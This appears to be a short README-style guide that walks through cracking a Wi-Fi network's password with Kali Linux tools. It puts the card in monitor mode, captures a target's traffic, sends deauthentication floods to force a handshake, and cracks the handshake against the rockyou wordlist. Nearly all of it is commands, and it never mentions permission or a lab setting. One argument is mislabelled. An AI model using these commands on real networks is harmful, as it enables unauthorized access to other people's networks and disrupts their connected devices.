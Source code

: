 Command Steps for run:

To hack a wireless network, you need a wireless card with two features:
1. Make sure your card supports monitor mode/promiscuous mode
2. Make sure you card is capable of performing packet injection.

Now, we will be using Kali Linux with the ALFA W115 short Range adapter.

Wifi Hacking Commands:

1. sudo su

2. cd /home/kali/Desktop/

3. airmon-ng start wlan0   [Before and after check model: iwconfig]

4. airodump-ng wlan0

5. airodump-ng --bssid "mac of wifi" --channel “No” --write hack wlan0

Open New Terminal:

1.cd /home/kali/Desktop/

2. aireplay-ng --deauth 25 -a "mac of wifi" -e "mac of connected device" wlan0

If rockyou.txt file is in zipped format: gzip -d rockyou.txt.gz

Else: aircrack-ng hack-01.cap -w /usr/share/wordlists/rockyou.txt
